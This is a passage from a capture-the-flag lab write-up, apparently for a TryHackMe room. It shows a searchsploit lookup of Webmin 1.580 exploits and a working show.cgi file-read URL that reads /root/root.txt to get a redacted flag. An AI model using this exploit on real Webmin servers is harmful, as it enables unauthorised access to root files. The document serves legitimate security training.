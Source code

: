 > Question #2 What is the name of the exposed CMS?


Once complete, in your browser type **localhost:10000** and you can access the newly-exposed webserver.
When we do that, we see a **Webmin** login form.


> Question #3 What is the CMS version?

At this point we do have a username and password, so let's login to see the Webmin logged user page. With that we should have the information we need for Question number 3.


[Task 6] Privilege Escalation with Metasploit
---------------------------------------------


Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

Before we jump to **Metasploit** let's run **searchsploit webmin 1.580** to see if we can get a bit more of details on the available exploits:

```bash
kali@kali:~$ searchsploit webmin 1.580
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)               | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                       | linux/webapps/47330.rb
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

We now know there is Remote Command Execution vulnerability availble and also a Remote Code Execution as well. Let's run **msfconsole** and see how we can exploit this CMS with Metasploit.

After failing for a while, I took a look on google to see if we can find the module itself to see what it does. Turns out its rather easy, it just uses the **show.cgi** component to read out any file passes into it. With this we can just run this on our local machine browser and get the root flag:



```bash
http://localhost:10000/file/show.cgi/root/root.txt

```

Once we run that command the browser will read out the contents of root.txt and give us the answer to the last Question:

> Question #1 What is the root flag?

a4b94{redacted_root_flag_XD}

As usual, happy hacking.

{{< thm_badge >}}